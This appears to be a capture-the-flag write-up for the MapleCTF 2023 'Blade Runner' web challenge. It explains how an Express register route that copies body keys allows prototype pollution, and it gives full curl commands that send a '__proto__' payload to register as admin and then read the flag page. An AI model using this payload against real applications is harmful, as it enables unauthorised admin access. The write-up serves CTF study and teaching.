 https://zimzi.substack.com/p/maplectf-2023-blade-runner

+ flag is in joi response.
+ The goal of the problem is to gain credentials to the JOI page and read the flag, which is included in one of the `JOI responses
+ joi uses middleware functions for authentication
```
function admin(req, res, next) {
    if  (req.session.user) {
        console.log("HERE");
        if (req.session.user != "admin") {
            return res.status(400).send("ADMIN REQUIRED.");
        } else {
            next();
        }
    }else{ 
        return res.status(400).send("LOGIN REQUIRED");
    }
}
```
+ lets also look at the post request code:
```
router.post('/register', async (req, res) => {
    var obj = {};
    for (const k in req.body) {
        if (k.toLowerCase() == "username" && req.body[k].toLowerCase() == "admin") {
            return res.status(400).send("You can't use that username.");
        };
        obj[k.toLowerCase()] = req.body[k];
        
    }
```
+ this is a mysterious line which gives the chances for prototype pollution
```obj[k.toLowerCase()] = req.body[k];```
+ The app takes keys and values from the body request and just assigns keys to values in the created `obj`. Later, we insert `obj.username` and `obj.password` to the database:
```
if (!obj["password"] || !obj["username"]) {
        return res.status(400).send("Invalid body.");
    }
    try {
        await util.db.insert_response(obj.username, obj.password);

        return res.redirect('/user/login');
    } catch {
        return res.status(500).send("An error occurred with processing!");
    }
```
+ The next task is to construct a payload with ‘username’ equal `admin`:

obj[k.toLowerCase()] = req.body[k];

Let’s follow the pattern:

k = `__proto__`

req.body[k] = {"username":"admin"}
+ final payloads:
+ register:
 ` curl -v -X POST https://baa721ea.blade-runner.ctf.maplebacon.org/
user/register \
     -H "Content-Type: application/json" \
     -d '{"password":"1234", "__proto__":{"username":"admin"}}' -c cookie1`
Then, login with the above credentials:

 `curl -v -X POST https://baa721ea.blade-runner.ctf.maplebacon.org/user/login \
     -H "Content-Type: application/json" \
     -d '{"username":"admin", "password":"1234"}' -c cookie1`
And get the JOI page:

`curl -v -b cookie1 -c cookie1 -X GET https://baa721ea.blade-
runner.ctf.maplebacon.org/joi`
